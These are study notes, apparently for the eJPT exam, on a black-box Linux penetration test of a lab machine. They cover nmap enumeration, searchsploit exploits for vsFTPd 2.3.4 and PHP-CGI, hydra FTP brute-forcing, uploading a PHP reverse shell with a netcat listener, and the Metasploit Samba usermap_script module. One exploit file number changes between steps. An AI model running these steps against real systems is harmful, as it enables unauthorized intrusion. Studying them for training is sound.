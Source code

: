 # 46 Linux Exploitation

# Linux Black Box Penetration Test

## Black Box Methodology

- Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Exploitation
	- Manual
	- Automated
- Post Exploitation
	- Privilege Escalation
	- Persistence
	- Dumping Hashes

---

# Port Scanning & Enumeration

```shell
nmap -T4 -PA -sC -sV -p 1-10000 <ip> -oX <name> # Save in XML format (Metasploit)
	msf6: db_import <file-path> # Import XML in msf
	msf6: auxiliary(scanner/smb/smb_version) # Save the name of the computer trick
nc -nv <ip> <port> # Banner grabbing, connect to bind shell listener 
cat /etc/*release # Release version information
```


# Targeting vsFTPd

```shell
nmap -sV -sC -p21 <ip>
searchsploit vsftpd 2.3.4
searchsploit -m 49757 # Backdoor Command Execution
chmod +x 49757.py # Executable permissions
# This vulnerability was patched closing the port via firewall 

# Search for users in target machine
nmap -sV -p25 <ip>
# Via smtp it's relatively easy enum the users 

# Bruteforce with users found
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.23.244 ftp
[21][ftp] host: 10.2.23.244   login: service   password: service

# Get a shell
ls -la /usr/share/webshell/php-reverse-shell.php # Select a shell
cp /usr/share/webshell/php-reverse-shell.php . # Copy in current dir
mv php-reverse-shell.php shell.php # Rename the file
nano shell.php # Configure the shell 
ftp: cd dav # The only dir we can put files with this user 
nc -nvlp 1234 # Setup a listener 
<ip>/dav/shell.php # Trigger the shell 
/bin/bash -i # Obtain bash session
```


# Targeting PHP

```shell
nmap -sV -sC -p80 <ip>
<ip>/phpinfo.php # PHP version
searchsploit php cgi
searchsploit -m 18836
python2 18836.py <ip> <port>
nano 11836.py # Modify exploit to obtain reverse shell 
nc -nvlp <port> # Listener
/bin/bash -i
```


# Targeting SAMBA

```shell
nmap -sV -p 445 <ip>
msf6: auxiliary(scanner/smb/smb_version) # Version detection
searchsploit samba
msf6: exploit(multi/samba/usermap_script)
```


#cybersecurity #eJPT 